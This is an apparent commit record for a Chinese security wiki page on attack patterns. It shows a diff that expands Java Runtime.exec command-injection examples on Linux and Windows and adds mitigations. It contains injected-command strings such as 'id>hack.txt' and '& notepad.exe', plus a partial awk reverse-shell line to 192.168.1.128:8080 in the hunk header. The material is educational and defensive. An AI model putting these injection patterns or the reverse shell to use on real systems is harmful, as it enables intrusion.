

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 1400 px high, scrolled down 16162 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -711,31 +711,88 @@ $ awk 'BEGIN{s="/inet/tcp/0/192.168.1.128/8080";for(;s|&getline c;close(c))while
 
 #### Java
 
+##### 仅执行特定程序, 无命令注入风险
+
 ```java
-import java.io.IOException;
+import java.util.logging.Level;
+import java.util.logging.Logger;
 
 public class OSi {
-    public static void main(String args[])
-    {
-        System.out.println("Start");
+    private static final Logger log = Logger.getLogger(OSi.class.getName());
 
-        String cmd = "mkdir ddd;id>hack.txt";
-        //String[] cmds = cmd.split(" ");
+    public static void main(String[] args) {
+        log.setLevel(Level.ALL);
+        log.entering("OSi", "main", "Start");
+
         try {
-            // 关注cmd是否 {==完全可控==}
-            // Runtime.getRuntime().exec(cmd);
-            // 关注String[] {==第一个元素==} 是否可控或为 {==/bin/sh==}
-            Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
-        } catch (IOException e) {
-            System.out.println(e);
+            String cmd = "mkdir ddd;id>hack.txt";
+            // Runtime启动新的进程
+            // 创建名为 ddd;id>hack.txt 的目录, 不存在命令注入
+            Runtime.getRuntime().exec(cmd);
+        } catch (Exception e) {
+            log.severe(e.getMessage());
         }
 
-        System.out.println("End");
+        log.entering("OSi", "main", "End");
     }
 }
 ```
 
-!!! success "如果传入String[]且第一个元素不是`/bin/sh`, 则不存在命令注入"
+##### 执行脚本, Linux不存在命令注入
+
+```bash
+#!/bin/bash
+
+# filename: test.sh
+mkdir ddd
+```
+
+```java
+String cmd = "./test.sh | id>hack.txt";
+// 仅执行test.sh, 不存在命令注入
+Runtime.getRuntime().exec(cmd);
+```
+
+##### 执行脚本, Windows存在命令注入
+
+```bat
+@rem filename: test.bat
+@mkdir "D:\tmp\hackdir"
+@echo "waiting..."
+
+@rem 如果加上 @pause 则后面的命令无法执行
+```
+
+```java
+String cmd = "D:\\tmp\\test.bat & notepad.exe";
+// 存在命令注入!!!
+Runtime.getRuntime().exec(cmd);
+```
+
+##### sh -c 作为一个参数传入exec, 在Linux下不会执行
+
+```java
+String cmd = "/bin/sh -c test.sh | id>hack.txt";
+// 未执行任何命令
+Runtime.getRuntime().exec(cmd);
+```
+
+##### cmd.exe /c 作为一个参数传入exec, 在Windows下存在命令注入
+
+```java
+Runtime rt = Runtime.getRuntime();
+Process proc = rt.exec("cmd.exe /c dir" + "&notepad.exe");
+proc.waitFor();
+```
+
+##### sh -c 作为数组传入exec, 存在命令注入
+
+```java
+// String[] {==第一个元素==} 可控  或  为 {==/bin/sh -c==}
+// 第二条命令执行成功
+Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", "test.sh;touch hack.txt"});
+```
+
 
 #### Python
 
@@ -769,6 +826,12 @@ public class OSi {
     ```
 
 - exec()
+
+### 消减措施
+
+1. 使用语言提供的标准API代替运行系统命令
+1. 对输入的数据进行白名单校验, 如: `Pattern.matches("[0-9a-zA-Z@]+", input)`
+1. 对特殊字符进行编码
 
 
 ## OGNL注入
````
